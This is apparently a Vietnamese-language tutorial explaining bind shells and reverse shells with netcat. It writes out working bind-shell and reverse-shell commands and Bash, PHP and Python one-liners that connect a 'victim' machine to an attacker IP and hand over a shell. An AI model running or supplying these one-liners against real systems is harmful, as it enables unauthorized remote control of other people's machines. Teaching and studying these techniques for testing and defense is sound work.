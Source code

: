 # Bind shell và Reverse shell

## Bind shell

Ta có thể hiểu đơn giản ở đây có 2 máy một máy là máy victim và một máy là máy của hacker. Trên máy victim lúc này sẽ mở lắng nghe trên một port nào đó để lấy các câu lệnh và thực hiện. Máy của hacker sẽ mở một kết nối đến máy victim. Lúc này tại máy của hacker sẽ nhập các lệnh và các lệnh này sẽ được gửi đến máy của victim để thực hiện sau đó kết quả sẽ được gửi lại phía máy của hacker

![](../images/nc/nc1.png)

Như vậy máy victim sẽ nghe các yêu cầu từ máy của hacker gửi đến port 5555 để thực hiện các yêu cầu đó.

Để làm được việc này ta sử dụng command `nc` để thiết lập kết nối giữa 2 máy

Trên máy victim thiết lập lắng nghe trên port 5555

```
nc -nvlp 5555 -e /bin/bash
```

Trong đó:
 * `-n` chỉ ra ở đây sử dụng IP thay vì DNS
 * `-v` để hiển thị chi tiết hoạt động trên màn hình
 * `-l` chỉ ra đây là listen mode (ở trên máy lắng nghe kết nối)
 * `-p` để chỉ ra port ở (ở đây chỉ ra port là 5555)
 * `-e` chỉ ra đường dẫn tới shell. Trong linux đường dẫn này là `/bin/bash` còn trên windows thì nó là `cmd.exe`

Còn trên máy của hacker sẽ thực hiện thiết lập kết nối đến máy victim

```
nc -nv 10.10.3.5 5555
```

Như vậy sau khi thiết lập hacker có thể đứng từ máy của mình và thao tác trên máy của victim (giống như ssh)

Trên máy victim

![](../images/nc/01.png)

Trên máy của hacker

![](../images/nc/02.png)

## Reverse Shell

Reverse shell và bind shell có cùng một mục đích nhưng có đôi chút khác biệt ở cách thực hiện. Ví dụ với bind shell thì nếu máy của nạn nhân là một địa chỉ private thông qua cơ chế NAT thì máy của hacker sẽ không thể nhìn thấy nó và sẽ không thể thiết lập được kết nối đến nó. Với reverse shell nó sẽ để máy của victim kết nối đến máy của hacker (Máy của hacker nên có thể thay đổi được địa chỉ phù hợp. Có thể là IP public hoặc sẽ có cơ chế NAT để cho các máy bên ngoài internet thâý được nó). Máy của hacker lúc này sẽ là máy lắng nghe các yêu cầu sau đó máy victim sẽ kết nối đến đây để lấy các yêu cầu này về và thực hiện

![](../images/nc/nc1.png)

Trên máy của hacker thiết lập lắng nghe trên port 5555

```
nc -nvlp 5555
```

Trên máy victim thiết lập kết nối đến máy của hacker

```
nc -nv 10.10.3.1 5555 -e /bin/bash
```

Trên máy của hacker

![](../images/nc/04.png)

Trên máy của victim

![](../images/nc/03.png)

Hoặc ta có thể sử dụng một số lệnh khác để thực hiện reverse shell

Trên máy của hacker chỉ cần dùng lệnh `nc -lvp 5555` để lắng nghe kết nối đến

Trên máy của victim có thể sử dụng một trong các phương pháp sau:

**Bash**

```
bash -i >& /dev/tcp/10.10.3.1/5555 0>&1
```

**PHP**

```
php -r '$sock=fsockopen("10.10.3.1",5555);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Python**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.3.5",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```